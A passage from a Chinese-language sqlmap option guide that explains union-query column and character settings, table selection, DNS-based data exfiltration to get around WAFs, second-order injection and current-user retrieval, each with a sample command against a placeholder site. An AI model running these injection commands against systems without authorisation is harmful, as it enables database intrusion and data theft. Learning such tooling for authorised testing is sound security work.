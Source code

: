 

## 0x31 --union-cols

设置union字段数，默认使用1到10列的union查询SQL注入技术，使用更高的level值可以增加到50列。

--union-cols可以手动设置特定范围列数。

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --union-cols 12-18
```

表示探测的列数为12到18列。



## 0x32 --union-char
设置union字符。默认使用空字符NULL。

level更高时还将使用随机数执行测试，因为在某些情况下，union查询测试使用NULL会失败，而使用随机整数会成功。
--union-char可以手动设置特定字符测试这种类型的注入。

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --union-char 123
```



## 0x33 --union-from
设置union查询表，某些情况下，sqlmap需要设定union查询SQL注入的具体数据表才可以得到数据。
--union-from 表名

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --technique U --union-from users --current-db -v3
```



## 0x34 --dns-domain
设置DNS攻击。针对目标网络很有可能对外部流量进行限制，或者设置WAF。通过设置DNS流量来突破限制：

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --dns-domain "dns服务器"
```


需要用户自身具有一个开放53端口的DNS服务器，通过DNS流量来获得Web应用程序中数据内容。



## 0x35 --second-order
sqlmap设置二次注入的结果页面。

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --second-order="url"
```



## 0x36 --current-user
获取当前用户。
